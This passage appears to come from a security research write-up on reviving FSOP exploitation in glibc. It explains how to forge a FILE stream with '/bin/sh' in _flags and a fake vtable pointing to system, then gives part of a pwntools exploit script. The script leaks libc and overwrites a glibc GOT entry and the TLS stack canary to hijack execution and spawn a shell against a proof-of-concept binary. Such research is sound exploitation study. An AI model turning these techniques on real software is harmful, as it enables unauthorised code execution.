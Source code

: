 Finally with our final FSOP we want to call `system('/bin/sh')` and get a shell. First thing we have to do is place `/bin/sh` in `_flags` field of our fake FILE stream and finally we need a fake vtable with an entry of `__overflow` which points to `system`. We already crafted a fake vtable with an entry pointing to `system`, in our stack canary!

This was crazy! If you have one or more known controlable buffers in .bss/data/heap/stack whatever, you can simplify the exploit a lot, and actually with this way it will feel a little bit more like the old FSOP technique.

But I wanted to exploit this PoC with the hard way for the below reasons:
* I wanted to prove that you might not need any heap leak or you might not need to know where your FILE stream is located in memory.
* Build an understanding for the following `House of Error`
* Revive FSOP.
* Get a stable shell.

# Exploit for PoC #2
```python
from pwn import *

# I have to warning you though
# I waz lazy and the exploit is a little bit unstable xD
# For the exploit to succeed we need our final _mode field which is the 4 least significant bytes of &_IO_vtable_check to be negative.
# Fortunately ASLR will do the job for us ;)
# Although we could avoid this case i waz lazy ;)
# Enjoy your shell ;)

elf = context.binary = ELF('fsop_patched', checksec = False)
libc = ELF('libc.so.6', checksec = False)

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript = '''
                dir /home/un1c0rn/FSOPAgain/poc2/libio/
                set breakpoint pending on
                b _IO_mem_sync
                b smash_me_baby
                b _IO_cleanup
        ''')
    else:
        return process(elf.path)

io = start()

io.recvuntil(b'libc leak: ') # skip blah blah
puts_leak = int(io.recvline(keepends = False), base = 16)
success(f'puts @ 0x{puts_leak:02x}')

libc.address = puts_leak - libc.sym.puts
success(f'libc @ 0x{libc.address:02x}')

stack_guard = libc.address - 0x2898
__strchrnul_avx2_got = libc.address + 0x1f20b8

where = __strchrnul_avx2_got # we target this got address in glibc to hijack the code exectution from __libc_message!
what = libc.sym._IO_cleanup # early cleanup yeay! who has time waiting the main to exit ;)

where2 = stack_guard # overwrite stack canary in TLS inorder to trigger __stack_chk_fail intentionally.
what2 = libc.sym.system # this will trigger __stack_chk_fail but also we can use it as a vtable entry for our final FILE stream.
```